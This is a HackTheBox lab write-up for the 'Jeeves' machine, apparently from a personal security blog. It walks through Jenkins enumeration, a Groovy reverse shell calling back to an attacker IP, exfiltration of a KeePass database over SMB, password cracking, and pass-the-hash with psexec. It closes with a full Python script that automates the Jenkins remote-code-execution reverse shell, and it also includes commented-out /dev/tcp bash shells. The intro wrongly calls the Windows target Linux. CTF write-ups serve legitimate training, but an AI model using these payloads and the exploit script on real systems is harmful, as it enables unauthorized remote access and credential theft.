

# Introdution

[https://app.hackthebox.com/machines/Jeeves](https://app.hackthebox.com/machines/Jeeves)

This machine was an medium box Linux from HackTheBox. Your entrypoint is with Web app in port 50000, Jenkins. Jenkins has a known RCE vuln. To escalate privilege is found a file `.kdbx` that is a password database. There’re a hash Administrator.

The exploit for this machine is on the end of the post.

**Have a good time!**

## Diagram




# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.63 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.63
```


## Port 80 (HTTP)

There’re a simple page web.

`http://10.10.10.63`


### Fuzzing Diretório WEB

```bash
gobuster dir -u http://10.10.10.63/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -e --no-error -r -x txt,php,html
```

Didn't return anything interesting.

We try fuzzing in port 50000, we found a URL that is running Jenkins Web App 

```bash
gobuster dir -u [http://10.10.10.63:50000/](http://10.10.10.63:50000/) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -e --no-error -r -x txt,php,html
```

```
===============================================================
[http://10.10.10.63:50000/askjeeves](http://10.10.10.63:50000/askjeeves)    (Status: 200) [Size: 11521]
===============================================================
```

`http://10.10.10.63:50000/askjeeves`


This app, Jenkins, already has a known vulnerability that gives us a reverse shell. We'll explore this in the next step.

# Exploration

## **Exploring Jenkins**

> **Refer:** [https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
>
{: .prompt-info }

In Jenkins, in the field “Script Console”, inside the field “Manage Jenkins”, there is an area that accepts Groovy script. In this field we will place our “Reverse Groove”.


Here we put our reverse groove, as the machine is Windows, so we set it to call a cmd.exe.


```groovy
String host="10.10.14.9";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

After preparing a listener in kali on port 443, we click on “Run” to run the script and return to the shell.


# Post Exploration

We gain shell with the user `jeeves\kohsuke`.

## **Local Enumeration**

In `C:\Users\kohsuke\Documents` there is a database of passwords.


## Privilege Escalation

Let's download the **CEH.kdbx** file to kali and try to crack it with **john the ripper**.

Download:

**On kali:** `impacket-smbserver share . -smb2support`

**In target:** `copy CEH.kdbx [//10.10.14.9/share/](https://10.10.14.9/share/)`

To crack the password with john, you first need to go through keepass2john, which transforms it into a file interpretable by john.

```bash
keepass2john CEH.kdbx > hash-kdbx
```


```bash
john hash-kdbx -wordlist=/usr/share/wordlists/rockyou.txt
```


> Pass: **moonshine1**
> 

**Alternativa:** Usando Hashcat para quebrar

```bash
hashcat hash-kdbx --user /usr/share/wordlists/rockyou.txt
```


We will use the `keepassx` tool to open the database

```bash
keepassx CEH.kdbx
```


We found a hash in the database. I will try to use it to log in as Administrator. I will use psexec to login.


```bash
crackmapexec smb 10.10.10.63 -u "Administrator" -H "aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00"
```


```bash
impacket-psexec Administrator@10.10.10.63  -hashes "aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00"
```


# Getting the root flag

There is the `hm.txt` file on the Desktop under the Administrator user that says to look for the root flag elsewhere, further down.


We will then look at alternative data streams:

```bash
dir /R
```


We verify that there is a data stream. To read the content we will use the more:

```bash
more < hm.txt:root.txt
```

# Get Shell - Script Automation

This is a script in python to exploit this machine.

`jeeves-getshell.py`

```python
#! /usr/bin/env python3

#### Title: Exploit Get Shell - RCE - Jenkins
#### Author: 0xEtern4lW0lf
#### Created: 23 Dez 2022
#### Description: Explore Jenkins - GetShell - Jeeves - HTB

#### ========= MODULES =========

import argparse
import requests
import socket, telnetlib
from threading import Thread

#### ========= VARIABLE =========

#### COLORS ####
RED = "\033[1;91m"
YELLOW = "\033[1;93m"
BLUE = "\033[1;94m"
GREEN = "\033[1;92m"
END = "\033[1;m "

## Set proxy [OPTIONAL]
#proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

#### ========= FUNCTION =========

## Banner
def banner():
  EwLogo = f"""

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⣀⠠⠤⢤⣤⣶⣴⣦⣤⣤⣀⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⣿⣿⣿⣿⣿⣿⣿⣿⡞⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠛⠻⢿⣷⣄⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣄⠈⠉⠛⠿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⡯⣿⣷⡄⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠰⢾⣿⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢌⡻⢿⡆⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠝⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣷⡌⠿⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⠋⠀⣸⣧⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⡄⠁
⠀⠀⠀⠀⠀⠀⠀⢀⣾⣏⣴⠟⢻⣿⠟⠛⠶⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⢻⣿⡀
⠀⠀⠀⠀⠀⠀⠀⣼⣿⣿⣿⣴⠿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⢳⣜⣿⡇
⠀⠀⠀⠀⠀⣠⣾⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡇⢿⣿⡇
⠀⠀⢀⣤⣾⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⠸⣿⠇
⢀⣴⣿⡿⠋⠀⠀⠀⠀⠀⣀⣤⣶⣶⣦⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⠀⠀⢸⣿⡄⡿⠀
⢺⣿⡏⠀⠀⠀⠀⢀⣤⣾⣿⠿⠛⠋⠙⠻⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡝⣦⠀⣸⣿⡧⠃⠀
⠀⠈⠉⠀⢠⣤⣶⣿⡿⠋⠀⠀⠀⠀⠀⡀⠈⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⡇⣿⣷⣿⣿⠀⠀⠀
⠀⠀⠀⠀⠀⠈⠉⠉⠁⠀⠀⠀⠀⢀⡜⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡆⠀⠀⣼⡇⣾⣿⣿⠇⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⢻⣿⣀⣾⣿⢡⣿⡿⠋⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣴⡿⢣⣿⣿⣿⣿⣣⡿⠋⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⡿⠀⠀⠀⠀⠀⣀⣠⣤⣴⣶⣿⠿⣋⣴⣿⣿⠿⠛⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⣿⡇⠀⢀⣠⣶⣿⣿⡿⠟⠋⠉⠐⠊⠉⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣇⣴⣿⣿⡿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⣿⣿⣿⣿⠋⠀⠀⠀⠀⠀{RED}#--------------------------------------------#
 _____  _                         ___  _  _    _  _____  _   __ 
|  ___|| |                       /   || || |  | ||  _  || | / _|
| |__  | |_   ___  _ __  _ __   / /| || || |  | || |/' || || |_ 
|  __| | __| / _ \| '__|| '_ \ / /_| || || |/\| ||  /| || ||  _|
| |___ | |_ |  __/| |   | | | |\___  || |\  /\  /\ |_/ /| || |  
\____/  \__| \___||_|   |_| |_|    |_/|_| \/  \/  \___/ |_||_|  
                                                                
#----------------------------------------------------------------# 
    
    Author: {GREEN}0xEtern4lW0lf{END}                           
    {RED}Site: {BLUE}https://0xetern4lw0lf.github.io/{END}

    FOR EDUCATIONAL PURPOSE ONLY.

  """
  return print(f'{BLUE}{EwLogo}{END}')

## Set the handler
def handler(lport,target):
    print(f"[+] Starting handler on {lport} [+]")
    tn = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0",lport))
    s.listen(1)
    conn, addr = s.accept()
    print(f"[+] Receiving connection the {target} [+]")
    tn.sock = conn
    print("[+] Habemus Shell! [+]")
    tn.interact()

# Define the payload to be included in the URL
def createPayload(lhost,lport):
    global payload

#   if target_system == "Windows":
    payload = '''String host="%s";
int port=%s;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();'''%(lhost,lport)

#   if target_system == "Linux":
#    payload = '''r = Runtime.getRuntime()
#p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/%s/%s;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
#p.waitFor()''' %(lhost,lport)

#    r = Runtime.getRuntime()
#    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/%s/%s;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
#    p.waitFor()""" %(lhost,lport),}

## Get the reverse shell
def getShell(rhost,rport,payload):
    print("[+] Let's get the reverse shell [+]")
    url = f"http://{rhost}:{rport}/askjeeves/script"
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '851',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',}

#    data = {
#    "script": """
#    r = Runtime.getRuntime()
#    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/%s/%s;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
#    p.waitFor()""" % (lhost,lport),}
    data = {
        'script': payload,
        'Jenkins-Crumb': '36267798ca3b6bfaf580958598da889c',
        'Submit' : 'Run',}

    ## If set proxy, add option "proxies=proxies"
    requests.post(url, headers=headers, data=data)

## main
def main():
    ## Parse Arguments
    parser = argparse.ArgumentParser(description='GetShell - Jeeves / HTB - 0xEtern4lW0lf')
    parser.add_argument('-t', '--rhost', help='Target IP address or hostname.', required=True)
    parser.add_argument('-p', '--rport', help='Port of the target machine.', type=int, required=True)
    parser.add_argument('-li', '--lhost', help='Local IP address or hostname', required=True)
    parser.add_argument('-lp', '--lport', help='Local Port to receive the shell', type=int, required=True)

    args = parser.parse_args()

    rhost = args.rhost
    rport = args.rport
    lhost = args.lhost
    lport = args.lport

    ## Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()

    ## Print some information
    print("\n[+] Setting information")
    print("[+] target: ", rhost)
    print("[+] lhost: ", lhost)
    print("[+] lport: ", lport)

    ## Create the payload
    createPayload(lhost,lport)

    ## Get the Shell
    getShell(rhost,rport,payload)

#### ======= EXECUTION =======

if __name__ == '__main__':
    banner()
    main()
```

